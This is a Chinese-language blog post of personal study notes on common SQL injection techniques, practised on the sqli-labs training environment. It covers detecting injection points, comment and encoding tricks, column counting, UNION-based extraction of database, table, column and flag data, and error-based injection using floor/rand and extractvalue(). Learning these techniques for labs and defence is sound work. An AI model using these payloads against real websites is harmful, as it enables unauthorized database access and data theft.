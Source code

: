 ```yaml
---
title: 常用SQL注入方法总结
toc: true
recommend: 1
uniqueId: '2021-05-03 08:39:13/sql-injection.html'
mathJax: false
date: 2021-05-03 16:39:13
thumbnail:
tags: [数据库]
categories: [个人技术心得,渗透]
keywords:
---
```

> 网上资料过于繁杂，所以想写一篇文章记录我的收获

<!-- more -->

## 判断是否存在注入点

一般来说都是输入sql语句，报错就很有可能存在注入点


## 字符型注入和数字注入

这两个的区别就是一个需要引号，一个不需要

字符型：`?id=2'　其他语句#`

数字型：`?id=2　其他语句`

**如何判断？**

数字型的其他语句替换为 `and 1=2` 会报错，否则就是字符型

## url编码问题

网址都是采用`url`编码，一般浏览器网址栏的字符都会被自动转码，但需要注意几点

- **末尾的空格不会被转码**
- **#不会被转码**（**#** url 编码后是 **%23** ）

## 注释问题

在字符型注入中，需要闭合引号构造sql语句，可以使用两个符号

1. `#`：在#后面的语句都会被注释掉
2. `--`：使用时需要注意，后面一定要接一个空格，在使用中都是 `--+`，+是空格的url编码

## 其他问题

表的字段类型如果是数字类型也可以用 `'数字'`来表示，但如果是数字＋字母的组合，只会取开头为数字的部分

```sql
＃比如下面的写法查询结果一样
where id='123abc'
where id='123'
where id=123
```

## 技巧

找到注入点以后，如果该注入点会返回查询的的数据，就可以着手获取数据库的基本信息了

如果没有返回数据，考虑报错注入和盲注

### 判断查询字段数

- **order by**：表示根据第几字段排序，超出会报错

```sql
MariaDB sqlilabs@(none):security> select *  from users where id=1 order by 4
(1054, "Unknown column '4' in 'order clause'")
```

- **select into**：原意是备份表，可备份全部字段或者部分字段，into 后面跟新表。表可以用变量@来表示，几个变量代表几个字段，运行报错就代表不是该字段数，字段数正确不会报错，但是前端得不到数据，会报500错误。（除了＠，也可以用null）

  **该方法可用在limit后面**

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static//img/article/2021/into-injection.png)

- **union**：union字段数，类型不兼容，则会报错，利用这个原理猜字段数，不报错就说明猜对了

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static//img/article/2021/union-injection.png)

> 请注意这是查询的字段数，不一定等于表的字段数，后端逻辑可能是查询全部字段然后进行筛选

### 获取数据库名 

```sql
?id=1 and 1=2 union select 1,database()
```

### 获取数据库的表

```sql
?id=1 and 1=2 union select 1,group_concat(table_name)from information_schema.tables where table_schema='sqli'
```

### 获取表的字段

```sql
?id=1 and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_name='flag'
```

### 获取该字段下的所有数据

```sql
?id=1 and 1=2 union select 1,group_concat(flag) from sqli.flag
```

### 绕过输出一行的逻辑

前端的逻辑可能获取到第一行数据后就把	后面的数据（我想要获取的数据）丢掉，可以让他第一行查不出来，这样就会显示我想显示的数据

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static//img/article/2021/sql-injection2.png)

## 报错注入

当后端sql运行正确时不会返回数据，而错误才会返回信息，这时就可以利用错误的信息将数据库的信息暴露出来

方法一：

利用 `group by` 子句的原理，**配合count**，floor和rand(产生两个随机值相撞的概率大)使其报错．(group by虚拟表[count(\*), key]，rand重复计算插入后报错)

**获取数据库名**

```sql
?id=1 union select 1,count(*),concat((select database()), floor(rand()*2)) as a from information_schema.tables group by a --+
```

缺点：数据库的记录必须>1才有几率报错。

方法二：

利用`extractvalue()`函数

```sql
?id=1 and extractvalue(1,concat(0x7e,database(),0x7e))--+
```



> **参考文章**
>
> [【技术分享】MySQL 注入攻击与防御](https://www.anquanke.com/post/id/85936)
>
> [Web安全学习笔记](https://websec.readthedocs.io/zh/latest/index.html)

